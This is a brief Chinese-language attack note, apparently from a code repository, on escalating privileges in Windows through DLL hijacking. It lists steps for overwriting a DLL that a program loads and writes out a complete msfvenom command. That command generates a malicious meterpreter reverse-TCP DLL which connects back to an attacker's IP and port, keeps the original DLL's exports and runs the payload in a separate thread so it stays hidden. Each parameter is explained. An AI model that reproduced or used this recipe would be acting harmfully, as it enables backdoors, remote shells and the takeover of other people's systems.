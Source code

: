 # DLL劫持提权
1.在掌握的权限中,知道有哪些可执行程序
2.分析如何调用的dll
3.对dll进行覆盖
4.执行后则会调用后门dll

工具:
火绒剑查看程序执行情况
msf可生成后门dll

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<攻击者IP> LPORT=<端口> -x 原始DLL路径 -k -f dll -o malicious.dll

参数解释：

-p windows/meterpreter/reverse_tcp: 指定使用的payload（反向TCP连接）。
LHOST和LPORT: 设置攻击者的IP和监听端口。
-x 原始DLL路径: 指定原始DLL作为模板，保留其导出函数。
-k: 在独立线程中运行payload，避免干扰原始DLL功能。
-f dll: 输出格式为DLL。
-o malicious.dll: 输出的恶意DLL文件名。
```